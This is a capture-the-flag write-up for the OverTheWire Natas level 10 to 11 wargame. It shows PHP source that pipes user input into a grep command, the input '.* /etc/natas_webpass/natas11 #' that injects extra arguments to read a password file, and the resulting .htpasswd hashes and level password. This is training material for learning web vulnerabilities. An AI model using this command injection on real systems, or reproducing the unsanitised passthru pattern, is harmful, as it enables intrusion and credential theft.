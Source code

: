 ```html
For security reasons, we now filter on certain characters
Find words containing:
Output:
--------------------------------------------------------
Output:
<pre>
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/ [;|&] /',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
--------------------------------------------------------
# now they are filtering the ; and & command.
but they still haven’t fixed the way “key” is storing input.
exploit this the same way we did in 9;
but this time just using regular expressions.

enter ".* /etc/natas_webpass/natas11 #"
".*" : tell grep to search for all, while ignoring case, and match it to etc/natas_webpass/natas11.
"#" : comments out dictionary.txt, preventing any errors from occurring.

grep -i .* /etc/natas_webpass/natas11 # dictionary.txt
--------------------------------------------------------
Output:
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

---

## Natas Level 10 → Level 11
Username: natas11
URL:      http://natas11.natas.labs.overthewire.org
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

